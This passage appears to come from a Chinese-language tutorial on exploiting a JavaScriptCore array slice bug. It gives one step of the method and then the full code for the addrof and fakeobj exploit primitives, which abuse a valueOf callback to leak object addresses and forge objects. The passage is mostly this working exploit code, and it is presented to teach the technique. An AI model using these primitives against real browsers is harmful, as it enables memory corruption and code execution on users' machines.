 3. 调用目标数组上的slice（），将来自步骤2的对象作为参数之一。

这两个原语的实现如下：

```java
    function addrof(object) {

        var a = [];

        for (var i = 0; i < 100; i++)

            a.push(i + 0.1337);   // Array must be of type ArrayWithDoubles

        var hax = {valueOf: function() {

            a.length = 0;

            a = [object];

            return 4;

        }};

        var b = a.slice(0, hax);

        return Int64.fromDouble(b[3]);

    }

    function fakeobj(addr) {

        var a = [];

        for (var i = 0; i < 100; i++)

            a.push({});     // Array must be of type ArrayWithContiguous

        addr = addr.asDouble();

        var hax = {valueOf: function() {

            a.length = 0;

            a = [addr];

            return 4;

        }};

        return a.slice(0, hax)[3];

    }

```
